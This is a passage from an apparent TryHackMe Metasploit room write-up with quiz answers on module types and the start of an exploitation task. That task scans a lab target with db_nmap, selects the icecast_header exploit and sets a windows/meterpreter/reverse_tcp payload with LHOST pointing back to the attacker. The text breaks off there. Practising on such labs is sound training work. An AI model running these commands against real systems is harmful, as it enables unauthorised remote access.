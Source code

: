     `auxiliary`

- One of the most common activities after exploitation is looting and pivoting. Which module provides these capabilities?

    `post`

- Commonly utilized in payload obfuscation, which module allows us to modify the 'appearance' of our exploit such that we may avoid signature detection?

    `encoder`

- Last but not least, which module is used with buffer overflow and ROP attacks?

    `nop`

- Not every module is loaded in by default, what command can we use to load different modules?

    `load`

# Task 5 : Move that shell!

let us scan the target with built-in `nmap` in `metasploit`

`db_nmap -sV <ip>`

![Metasploit%20-%20TryHackMe%200ffcc85fa5b64b8c9fce5c4e45a15c58/Untitled%201.png](Metasploit%20-%20TryHackMe%200ffcc85fa5b64b8c9fce5c4e45a15c58/Untitled%201.png)

- What service does nmap identify running on port 135?

    `msrpc`

![Metasploit%20-%20TryHackMe%200ffcc85fa5b64b8c9fce5c4e45a15c58/Untitled%202.png](Metasploit%20-%20TryHackMe%200ffcc85fa5b64b8c9fce5c4e45a15c58/Untitled%202.png)

- Now that we've scanned our victim system, let's try connecting to it with a Metasploit payload. First, we'll have to search for the target payload. In Metasploit 5 (the most recent version at the time of writing) you can simply type 'use' followed by a unique string found within only the target exploit. For example, try this out now with the following command 'use icecast'. What is the full path for our exploit that now appears on the msfconsole prompt? *This will include the exploit section at the start

    `exploit/windows/http/icecast_header`

![Metasploit%20-%20TryHackMe%200ffcc85fa5b64b8c9fce5c4e45a15c58/Untitled%203.png](Metasploit%20-%20TryHackMe%200ffcc85fa5b64b8c9fce5c4e45a15c58/Untitled%203.png)

We can use our search results without typing out the full name/path of the module we want to use as shown below

![Metasploit%20-%20TryHackMe%200ffcc85fa5b64b8c9fce5c4e45a15c58/Untitled%204.png](Metasploit%20-%20TryHackMe%200ffcc85fa5b64b8c9fce5c4e45a15c58/Untitled%204.png)

- What is the name of the column on the far left side of the console that shows up next to 'Name'?

    `#`

let's set the payload using this command `set PAYLOAD windows/meterpreter/reverse_tcp`

set the host ip `set LHOST <your-ip>`
